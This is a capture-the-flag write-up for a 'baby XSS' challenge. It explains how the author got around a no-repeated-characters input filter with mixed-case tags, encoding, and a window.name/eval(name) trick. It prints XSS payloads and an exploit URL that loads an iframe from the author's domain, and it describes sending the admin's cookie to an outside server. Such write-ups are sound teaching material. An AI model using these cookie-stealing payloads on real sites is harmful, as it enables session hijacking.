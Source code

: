 # how2xss

## Description:

> Baby XSS Challenge

## Solution:

After a few tries in the "hack me" page, I realized that the rule for the input is no repeated characters.

First, `alert(1)` can be achieved using the case insensitive property of html: `<svg onLOAd=alert(1)>`.

However, the script to send a cookie is too long. I need to inject more scripts without the limitation of the filter. To do that, I used iframe with src pointing to my own domain.

Since iframe points to a different domain, it cannot access it's parent's cookie. Therefore, I need a second payload to steal the cookie. The shortest payload possible is `eval(name)`, where `name=document.body.innerHTML`. The repeated characters can be bypassed with html encode and unicode encode.

To get the cookie itself, I first set the iframe window name to be a payload that will send the cookie to another domain. Then, I will redirect it back to the "hack me" page with the `eval(name) payload`. This will evaluate the payload stored in name and steal the cookie.

The following payload can be used to steal my own cookie, but it doesn't work when submitted to admin.

```
https://edu-ctf.kaibro.tw:30678/hackme.php?q=<IFRAME SrC=HtTP:/&#x2f;phym.gq>
```

Actually, documents loaded in the same window use the same `window.name`. All of these document can access it, so if we didn't change `window.name`, it will use the previous page's `window.name` by default. Since this question doesn't restrict the domain to be the same as the question's domain, we can just submitted our own server's url (containing the payload) to the admi, without the need to use iframe.

When the admin access our server, its `document.cookie` will be left on our server's access log.
